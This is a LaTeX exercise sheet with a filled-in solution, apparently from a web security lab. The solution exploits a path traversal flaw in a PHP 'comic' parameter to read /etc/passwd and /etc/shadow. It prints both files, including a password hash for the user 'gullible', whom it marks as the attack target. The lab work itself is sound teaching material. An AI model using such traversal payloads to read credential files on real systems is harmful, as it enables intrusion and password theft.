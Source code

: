 \documentclass[a4paper,11pt]{article}
\newenvironment{solution}%
{\par{\noindent\small\textit{Solution:}}\vspace{-12pt}\begin{framed}}%
{\end{framed}\par}
\begin{document}
\begin{enumerate}
	\item Try to read some filesystem files that you are not supposed to. How do you get them exfiltrated thanks to the previous vulnerability?
	
	Let's get some interesting files. How many users are there in the system? How can you tell by just being able to read files? How many users can log in into the system?
	
	\ifsolution\begin{solution}
WRITE HERE. 

We can pass the files we want as the 'comic' parameter in the PHP code, as there is no access control for the files we can access. Two nice files which we can access are /etc/passwd which contains all the users, and /etc/shadow which contains the hashes of the passwords. We use 'comic'=../../../../../../../etc/passwd or 'comic'=../../../../../../../etc/shadow.

/etc/passwd has the following content:
\begin{verbatim}
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
gullible:x:1000:1000::/home/gullible:/bin/sh
sshd:x:102:65534::/var/run/sshd:/usr/sbin/nologin
\end{verbatim}

This shows that there are \textbf{22 users} in the system. 

/etc/shadow has the following content:
\begin{verbatim}
root:*:16156:0:99999:7:::
daemon:*:16156:0:99999:7:::
bin:*:16156:0:99999:7:::
sys:*:16156:0:99999:7:::
sync:*:16156:0:99999:7:::
games:*:16156:0:99999:7:::
man:*:16156:0:99999:7:::
lp:*:16156:0:99999:7:::
mail:*:16156:0:99999:7:::
news:*:16156:0:99999:7:::
uucp:*:16156:0:99999:7:::
proxy:*:16156:0:99999:7:::
www-data:*:16156:0:99999:7:::
backup:*:16156:0:99999:7:::
list:*:16156:0:99999:7:::
irc:*:16156:0:99999:7:::
gnats:*:16156:0:99999:7:::
nobody:*:16156:0:99999:7:::
libuuid:!:16156:0:99999:7:::
syslog:*:16156:0:99999:7:::
gullible:$6$otfLedCx$Bgv4EoVV64KsixpcFqoT79fwoSFIKpoSGtFq0cuZJiUhcnuVG
ccbhCloIwXezcQ96aniNLmtXo31GIAr/XIdH0:18928:0:99999:7:::
sshd:*:18928:0:99999:7:::
\end{verbatim}
This shows that there is \textbf{1 user} with a password which can log into the system, and for our exploit, gullible is the user we can target for an attack.


\end{solution}
\end{enumerate}
\end{document}
